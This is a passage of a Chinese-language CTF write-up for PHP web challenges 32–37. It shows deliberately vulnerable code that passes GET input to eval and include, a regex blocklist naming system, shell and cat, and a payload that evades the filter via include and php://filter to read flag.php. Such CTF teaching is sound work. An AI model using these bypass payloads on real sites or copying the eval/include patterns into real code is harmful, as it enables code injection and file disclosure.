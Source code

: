 > **strings** 命令是二进制工具集 GNU Binutils  的一员，用于打印文件中可打印字符串，strings命令在对象文件或二进制文件中查找可打印的字符串。字符串是4个或更多可打印字符的任意序列，以换行符或空字符结束。 strings命令对识别随机对象文件很有用。



### web32-36

```php
 <?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

这次又把 反引号 `  , echo , 分号；  小括号 ( 给过滤了

所以，我们需要使用一种不需要括号的语句，我们可以想到包含文件的 include

但是这里把  分号 ;  给过滤了，我们可以使用 ?>  去代替

于是我们可以利用文件包含漏洞

payload：

```php
?c=include%09$_POST[1]?>
post： 1=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php
```

> `php://filter`是`php`中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如`base64`编码处理，`rot13`处理等。

这里就可以将 flag.php 文件base64编码，然后解码就可得到flag·





### web37

```php
 <?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```
